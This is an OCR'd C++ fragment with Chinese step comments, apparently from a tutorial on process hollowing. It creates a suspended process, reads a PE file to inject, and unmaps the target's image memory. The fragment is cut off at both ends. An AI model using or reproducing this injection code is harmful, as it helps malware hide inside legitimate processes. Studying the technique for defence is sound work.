 ```cpp=
        0,
        pDestCmdLine,		
        0, 
        0, 
        0, 
        CREATE_SUSPENDED, 
        0, 
        0, 
        pStartupInfo, 
        pProcessInfo
    );
    if (!pProcessInfo->hProcess)
    {
        printf("Error creating process\r\n");

        return;
    }

    // 取得 PEB，裡面包含後面步驟需要用到的 ImageBaseAddress
    PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
    PLOADED_IMAGE pImage = ReadRemoteImage(pProcessInfo->hProcess, pPEB->ImageBaseAddress);


    // 2. 讀取要注入的檔案
    HANDLE hFile = CreateFileA
    (
        pSourceFile,
        GENERIC_READ, 
        0, 
        0, 
        OPEN_ALWAYS, 
        0, 
        0
    );
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Error opening %s\r\n", pSourceFile);
        return;
    }
    DWORD dwSize = GetFileSize(hFile, 0);
    PBYTE pBuffer = new BYTE[dwSize];
    DWORD dwBytesRead = 0;
    ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);

    // 取得 File Header 和 Optional Header
    // File Header 和 Optional Header 各是 NT Header 的其中一個成員，NT Header 則是從 DOS Header 算出來的
    PLOADED_IMAGE pSourceImage = GetLoadedImage((DWORD)pBuffer);
    PIMAGE_NT_HEADERS32 pSourceHeaders = GetNTHeaders((DWORD)pBuffer);


    // 3. Unmap 目標 Process 的記憶體
    // 從 ntdll.dll 中取出 NtUnmapViewOfSection
    HMODULE hNTDLL = GetModuleHandleA("ntdll");
    FARPROC fpNtUnmapViewOfSection = GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
    _NtUnmapViewOfSection NtUnmapViewOfSection =
        (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
    DWORD dwResult = NtUnmapViewOfSection
    (
        pProcessInfo->hProcess, 
        pPEB->ImageBaseAddress
    );
    if (dwResult)
    {
```